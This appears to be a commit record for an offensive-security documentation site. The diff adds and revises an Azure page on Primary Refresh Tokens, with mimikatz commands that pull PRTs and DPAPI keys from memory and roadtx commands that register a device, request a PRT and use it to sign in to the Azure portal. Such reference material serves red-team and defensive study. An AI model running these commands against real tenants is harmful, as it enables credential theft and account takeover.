

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/cloud/azure/azure-access-and-token.md, in a window 1280 px wide and 900 px high, scrolled down 1947 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2688 px from its top, so only the background shows below that.

Commit message:
AAD PRT + Conditional Access Policy

````diff
--- a/docs/cloud/azure/azure-access-and-token.md
+++ b/docs/cloud/azure/azure-access-and-token.md
@@ -95,6 +95,16 @@
     ```
 
 
+### Extract PRT v1
+
+```ps1
+mimikatz # sekurlsa::cloudap
+mimikatz # sekurlsa::dpapi
+mimikatz # dpapi::cloudapkd /keyvalue:<key-value> /unprotect
+roadtx browserprtauth --prt <prt> --prt-sessionkey <clear-key> --keep-open -url https://portal.azure.com
+```
+
+
 ### Extract PRT on Device with TPM
 
 * No method known to date.
@@ -103,11 +113,17 @@
 ### Generate a PRT by registering a device
 
 ```ps1
-roadtx interactiveauth -u user.lastname@domain.local -p password123 -r devicereg
-roadtx device -n devicename
-roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem
-roadtx prtenrich –prt roadtx.prt
-roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem -r 0.AVAApQL<snip>
+# Get correct token audience
+roadtx gettokens -c 29d9ed98-a469-4536-ade2-f981bc1d605e -r urn:ms-drs:enterpriseregistration.windows.net --refresh-token file
+
+# Registering device
+roadtx device -a register -n <device-name>
+
+# Request PRT
+roadtx prt --refresh-token <refresh-token> -c <device-name>.pem -k <device-name>.key
+
+# Use a PRT
+roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
 ```
 
 
````
Also changed, not shown: docs/cloud/azure/azure-devices-users-services.md (+17 -0 lines), docs/cloud/azure/azure-enumeration.md (+15 -2 lines), docs/cloud/azure/azure-phishing.md (+5 -0 lines), 1 other file.
